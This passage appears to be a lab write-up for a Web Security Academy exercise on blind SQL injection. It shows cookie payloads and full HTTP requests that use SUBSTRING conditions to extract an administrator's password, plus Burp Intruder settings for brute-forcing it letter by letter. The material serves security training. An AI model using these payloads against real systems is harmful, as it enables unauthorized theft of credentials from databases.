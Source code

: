 - Using some tricks we could confirm existance of some tables, confirming `Welcome back!` is not disapeared - for example:

```html
...
TrackingId=BTUKMeEhhvDFmzhu'+AND+(SELECT+'a'+FROM+USERS+LIMIT+1)='a'--;
...
```
- Next - updating TrackingId cookie (like in the theory part):

```html
GET / HTTP/2
Host: <YOUR_LAB>.web-security-academy.net
Cookie: TrackingId=xyz'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username+%3d+'administrator'),+1,+1)+>+'z; session=xKSOPPAs56VTKT6bpSCAb1rabtoAreMS
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR_LAB>.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

- We could see that `Welcome back!` is disappeared, so using this we could find password letter by letter:
- Put our request to *intruder*, `choose cluster-bomb attack`, for a first payload choose numbers from 1 to 25 (suppose we have a shorter password), for second one - `brute forcer`, and next on *settings* tab, on `grep match` clear the list and add `Welcome back`, now we can start:

```html
GET / HTTP/2
Host: <YOUR_LAB>.web-security-academy.net
Cookie: TrackingId=etr8D5oM5eXvzJHM'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username+%3d+'administrator'),+§1§,+1)+=+'§2§'--; session=eK5gCdC9nwrt48tgUJ15JaHMkyrL00QR
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR_LAB>.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```
